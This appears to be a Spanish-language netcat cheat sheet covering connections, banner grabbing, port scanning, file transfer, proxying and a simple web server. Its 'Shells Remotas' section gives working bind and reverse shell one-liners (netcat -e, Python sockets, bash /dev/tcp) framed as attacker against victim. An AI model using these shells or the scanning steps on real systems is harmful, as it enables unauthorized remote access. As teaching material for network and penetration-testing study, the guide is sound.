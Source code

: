 Netcat es una herramienta versátil para conexiones de red que puede actuar como cliente o servidor.

# Funcionalidades Básicas

Instalación:

```bash
# En sistemas basados en Debian/Ubuntu
sudo apt-get install netcat

# En sistemas basados en Red Hat/CentOS
sudo yum install nc
```

Sintaxis básica:

```bash
nc [opciones] [host] [puerto]
```


# Uso como Cliente

Conexión TCP básica:

```bash
# Conectar a un host y puerto
nc 192.168.1.1 80

# Ejemplo: Realizar petición HTTP manual
nc 192.168.1.1 80
GET / HTTP/1.1
Host: 192.168.1.1
```

Conexión UDP:

```bash
# Conexión UDP
nc -u 192.168.1.1 53
```

Timeout:

```bash
# Establecer timeout
nc -w 5 192.168.1.1 80
```


# Uso como Servidor

Escuchar en un puerto:

```bash
# Escuchar en puerto TCP
nc -l -p 4444

# Escuchar en puerto UDP
nc -u -l -p 4444
```

Verboso:

```bash
# Modo verboso
nc -v -l -p 4444
```


# Banner Grabbing

Obtener banners de servicios:

```bash
# Banner HTTP
echo -e "GET / HTTP/1.1\r\nHost: target.com\r\n\r\n" | nc 192.168.1.1 80

# Banner FTP
nc 192.168.1.1 21

# Banner SSH
nc 192.168.1.1 22

# Banner SMTP
nc 192.168.1.1 25
```


# Port Scanning con Netcat

Escaneo de puerto único:

```bash
# Verificar si puerto está abierto
nc -zv 192.168.1.1 80
```

Escaneo de rango:

```bash
# Escanear rango de puertos
nc -zv 192.168.1.1 1-100

# Script para escaneo
for port in {1..100}; do
    nc -zv 192.168.1.1 $port 2>&1 | grep succeeded
done
```


# Transferencia de Archivos

Enviar archivo:

```bash
# En el receptor
nc -l -p 4444 > archivo_recibido.txt

# En el emisor
nc 192.168.1.1 4444 < archivo_a_enviar.txt
```

Enviar directorio:

```bash
# En el receptor
nc -l -p 4444 | tar -xvf -

# En el emisor
tar -cvf - directorio/ | nc 192.168.1.1 4444
```


# Shells Remotas

Bind Shell:

```bash
# En el objetivo (víctima)
nc -l -p 4444 -e /bin/bash

# En el atacante
nc 192.168.1.1 4444
```

Reverse Shell:

```bash
# En el atacante
nc -l -p 4444

# En el objetivo
nc 192.168.1.1 4444 -e /bin/bash
```

Shells más estables:

```bash
# Reverse shell con Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

# Reverse shell con Bash
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```


# Proxy y Relay

Proxy simple:

```bash
# Crear proxy en puerto 8080
mkfifo proxy_fifo
nc -l -p 8080 < proxy_fifo | nc 192.168.1.1 80 > proxy_fifo
```

Relay de puertos:

```bash
# Redireccionar tráfico
nc -l -p 8080 -c 'nc 192.168.1.1 80'
```


# Casos de Uso Avanzados

Chat simple:

```bash
# Usuario 1
nc -l -p 4444

# Usuario 2
nc 192.168.1.1 4444
```

Servidor web simple:

```bash
# Servir archivo HTML
while true; do
    echo -e "HTTP/1.1 200 OK\r\n\r\n$(cat index.html)" | nc -l -p 8080
done
```

Honey pot básico:

```bash
# Simular servicio en puerto 23
nc -l -p 23 -k
```